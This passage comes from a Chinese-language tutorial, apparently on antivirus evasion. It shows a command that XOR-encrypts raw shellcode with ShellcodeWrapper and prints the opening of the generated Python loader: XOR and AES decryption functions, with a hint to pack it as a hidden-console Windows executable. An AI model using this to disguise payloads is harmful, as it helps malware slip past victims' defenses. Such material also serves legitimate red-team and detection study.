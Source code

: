 在`ShellcodeWrapper`文件夹中执行下面命令，其中`tidesec`为自己设置的key。
```
python shellcode_encoder.py -cpp -cs -py shellcode.raw tidesec xor
```
![1722b6eb8941ce38fb0767e18c59fd25](images/2020.04-bypass-05/15.png)

生成了三个文件，有一个py文件，也是我们要用到的。

其中`encryptedShellcodeWrapper_xor.py`文件中的python源码如下
```
#!/usr/bin/python
# -*- coding: utf8 -*-
# Author: Arno0x0x, Twitter: @Arno0x0x
#
# You can create a windows executable: pyinstaller --onefile --noconsole multibyteEncodedShellcode.py
from Crypto.Cipher import AES
from ctypes import *
import base64

# data as a bytearray
# key as a string
def xor(data, key):
	l = len(key)
	keyAsInt = map(ord, key)
	return bytes(bytearray((
	    (data[i] ^ keyAsInt[i % l]) for i in range(0,len(data))
	)))

#------------------------------------------------------------------------
def unpad(s):
	"""PKCS7 padding removal"""
	return s[:-ord(s[len(s)-1:])]

#------------------------------------------------------------------------
def aesDecrypt(cipherText, key):
	"""Decrypt data with the provided key"""

	# Initialization Vector is in the first 16 bytes
	iv = cipherText[:AES.block_size]

	cipher = AES.new(key, AES.MODE_CBC, iv)
	return unpad(cipher.decrypt(cipherText[AES.block_size:]))

```